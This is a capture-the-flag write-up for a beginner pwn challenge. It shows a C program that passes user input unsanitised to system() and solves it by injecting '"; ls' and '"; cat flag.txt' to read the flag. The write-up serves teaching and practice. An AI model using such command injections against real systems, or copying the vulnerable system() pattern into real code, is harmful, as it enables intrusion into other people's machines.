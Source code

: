## runway0 [50 pts]

**Category:** beginner-pwn
**Solves:** 347

## Description
beginner-pwn4 / 6

If you've never done a CTF before, this runway should help!

Hint: MacOS users (on M series) will need a x86 Linux VM. Tutorial is here: pwnoh.io/utm


nc challs.pwnoh.io 13400 

### Solution

Checking the binary:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
    char command[110] = "cowsay \"";
    char message[100];

    printf("Give me a message to say!\n");
    fflush(stdout);

    fgets(message, 0x100, stdin);

    strncat(command, message, 98);
    strncat(command, "\"", 2);

    system(command);
}
```

It's a simple command injection, we should close `cowsay` command and insert our commands. 

Send sample payload like `"; ls`

```bash
nc challs.pwnoh.io 13400 
Give me a message to say!
hello"; ls
 _______
< hello >
 -------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
flag.txt
run
sh: 2: Syntax error: Unterminated quoted string

```

Ok let's read the flag now:

```bash
$ nc challs.pwnoh.io 13400 
Give me a message to say!
hello"; cat flag.txt
 _______
< hello >
 -------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
bctf{flaghere}sh: 2: Syntax error: Unterminated quoted string
```
